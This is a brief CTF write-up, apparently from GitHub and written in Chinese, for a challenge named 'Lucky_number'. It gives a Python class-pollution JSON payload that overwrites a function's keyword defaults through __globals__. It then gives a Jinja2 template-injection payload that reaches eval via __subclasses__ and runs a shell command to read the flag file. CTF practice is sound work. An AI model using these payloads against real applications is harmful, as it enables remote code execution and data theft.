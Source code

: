 ### Lucky_number

---

> python 原型链

根据要求传入json，

```json
{
    "__init__":{
        "__globals__":{
            "heaven":{
                "create":{
                    "__kwdefaults__":{
                        "lucky_number":5346,
                        "confirm":"true"
                    }
                }
            }
        }
    }
}
```

然后进入模板注入界面

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /f*').read()")}}{% endif %}{% endfor %}

```


